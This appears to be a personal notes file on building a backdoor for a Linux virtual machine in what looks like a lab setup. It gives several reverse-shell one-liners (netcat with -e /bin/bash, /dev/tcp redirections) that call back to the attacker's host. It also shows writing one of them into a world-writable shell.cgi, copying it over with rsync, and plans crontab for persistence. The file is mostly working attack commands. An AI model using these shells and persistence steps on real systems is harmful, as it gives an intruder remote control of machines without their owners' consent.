 # Notes for the backdoor
Will most likely need to make use of crontab so the file automatically gets executed at a time or at startup. 

HM = Host machine
VM = Virtual machine that is being attacked

# 1 Netcat method
This creates a reverse shell with netcat

HM
1. HM setup listening port: `nc –l 4444`
2. Get the hosts ip address: `ifconfig | grep --color netmask`
	it will be something like `192.168.x.xxx`

3. gain remote access to the VM, via ssh or ...?
4. On Linux VM, setup the reverse shell with hosts IP address: `nc 192.168.x.xxx -e /bin/bash`

5. on HM type any bash command and hit enter

# 2 without Netcat installed
- // 0<&196; open file descriptor and redirect it to stdin. 196 is a random number
- // exec 196<>/dev/tcp/192.168.0.xxx/4444; read-write file descriptor,  https://unix.stackexchange.com/questions/164391/how-does-cat-file-work
- // sh <&196 receive commands from host machine, display output on target
- // sh >&196 receive commands on target, redirect output to the host machine
- // sh 2>&196 redirect stderr to the host
- // sh <&196 1>&196 2>&196 allow commands output to display on the target machine
1. on HM: `nc –l 4444`
2. on VM: `0<&196;exec 196<>/dev/tcp/192.168.0.xxx/4444; sh <&196 1>&196 2>&196`

# 3 even better method
https://medium.com/@hackbotone/shellshock-attack-on-a-remote-web-server-d9124f4a0af3
- // >& <location> redirects stdout and stderr to be redirected to <location>
- // 0<&1 redirects std in back to the shell
1. on HM: `nc –l 4444`
2. on VM: `/bin/bash -i >& /dev/tcp/192.168.0.xxx/4444 0<&1`
3. copy it to the remote machine: `rsync -av shell.cgi sparky@kali:/home/sparky/desktop`	// change to use your machines details instead of sparky@kali						

## To elaborate a little bit --> create the script, set permissions
1. on HM: `echo "/bin/bash -i >& /dev/tcp/192.168.0.xxx/4444 0<&1" > shell.cgi; chmod 777 shell.cgi`

## copy the script to the remote machine
2. rsync -av shell.cgi sparky@kali:/home/sparky/desktop

## now the remote machine just needs to run shell.cgi
Sounds like Crontab could do this, or https://serverfault.com/questions/364040/how-to-execute-a-process-on-remote-linux-machine-without-ssh
3. ./shell.cgi

# TODO
- [ ] figure out how to make the script execute on the remote machine.
rsync --chmod=u+rwx,g+rwx,o+rwx /path/to/file server:/path/to/file
